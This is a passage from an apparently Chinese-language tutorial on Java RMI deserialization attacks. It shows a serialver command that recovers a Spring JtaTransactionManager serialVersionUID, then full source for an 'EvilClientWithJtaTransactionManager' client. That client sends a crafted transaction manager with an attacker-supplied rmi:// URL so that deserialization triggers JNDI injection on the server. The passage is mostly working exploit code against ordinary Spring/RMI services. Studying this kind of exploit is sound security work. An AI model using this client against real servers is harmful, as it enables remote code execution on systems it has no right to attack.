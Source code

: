 ```java
    private String  userTransactionName;

    public void setUserTransactionName ( String userTransactionName )
    {
        this.userTransactionName    = userTransactionName;
    }
}
```

假设明确知道服务端所用库版本，可以离线获取服务端serialVersionUID:

$ serialver -classpath "spring-tx-4.2.4.RELEASE.jar:spring-beans-4.2.4.RELEASE.jar:spring-core-4.2.4.RELEASE.jar:javax.transaction-api-1.2.jar:commons-logging-1.2.jar:spring-context-4.2.4.RELEASE.jar" org.springframework.transaction.jta.JtaTransactionManager
org.springframework.transaction.jta.JtaTransactionManager:    private static final long serialVersionUID = 4720255569299536580L;

无论如何，总能在客户端异常中看到服务端serialVersionUID。

参[47]，作者实现fake版JtaTransactionManager.java时引入一个变量:

public static final String DEFAULT_USER_TRANSACTION_NAME = "java:comp/UserTransaction";

不知要干啥，反正我没引入。

14.2) EvilClientWithJtaTransactionManager.java

```java
/*
 * javac -encoding GBK -g -cp ".:spring-tx-4.2.4.RELEASE.jar" EvilClientWithJtaTransactionManager.java
 *
 * 注意-cp中当前目录最先出现，这样才能使用fake版JtaTransactionManager
 */
import javax.naming.*;
import org.springframework.transaction.jta.JtaTransactionManager;

/*
 * 参照SomeEvilClient3实现EvilClientWithJtaTransactionManager
 */
public class EvilClientWithJtaTransactionManager
{
    public static void main ( String[] argv ) throws Exception
    {
        String          name    = argv[0];
        String          sth     = argv[1];
        /*
         * rmi://192.168.65.23:1099/any
         */
        String          evilurl = argv[2];
        Context         ctx     = new InitialContext();
        SomeInterface3  some    = ( SomeInterface3 )ctx.lookup( name );
        /*
         * 使用fake版JtaTransactionManager
         */
        JtaTransactionManager
                        jtm     = new JtaTransactionManager();
        /*
         * 通过反序列化漏洞进一步触发JNDI注入漏洞
         */
        jtm.setUserTransactionName( evilurl );
        jtm.setMsg( sth );
        some.Echo( jtm );
    }
}
```
